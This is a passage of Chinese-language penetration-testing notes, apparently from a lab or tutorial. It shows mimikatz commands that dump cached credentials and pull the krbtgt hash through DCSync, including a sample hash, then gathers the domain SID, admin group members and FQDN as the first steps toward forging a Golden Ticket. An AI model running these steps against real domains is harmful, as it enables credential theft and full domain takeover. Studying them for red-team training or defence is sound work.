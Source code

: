 **缓存提取用户密码凭证**

```batch
privilege::debug
lsadump::cache
#用于获取登录过的账户的信息，尤其在域环境中非常有用 
#目标数据包括 本地缓存的登录凭据， Windows 会话缓存中的用户名和密码哈希
```

```batch
klist # cmd 票证缓存
```

### 2.2. 黄金票据制作

所需参数：
- 域名：目标域的 FQDN
- SID：域的安全标识符，可以通过 `whoami /user` 或 AD 工具提取
- KRBTGT 哈希：KRBTGT 帐户的 NTLM 哈希，需从域控中提取
- 用户名：要伪造的用户（通常是管理员账户）

#### 2.2.1. 获取参数信息

##### 2.2.1.1. 获取 krbtgt 哈希

```batch
mimikatz "privilege::debug" "lsadump::dcsync /domain:work.com /user:krbtgt" exit
# 239ad56d36d09131a3584cdc25761616
```

![image.png](https://img.ghostliner.top/KUkzzm.png)

##### 2.2.1.2. 获取域控 SID

```batch
whoami /user #当前用户的SID
wmic useraccount get name,sid #系统所有用户的SID
# Administrator   S-1-5-21-3644623682-4019055222-2476599189-500
```

![image.png](https://img.ghostliner.top/jkR8Uw.png)

##### 2.2.1.3. 要伪造的用户

```batch
# 查看域内管理员组成员
net group "domain admins" /domain
```

##### 2.2.1.4. 域 FQDN

```batch
ipconfig /all
```

![image.png](https://img.ghostliner.top/yhDCUJ.png)
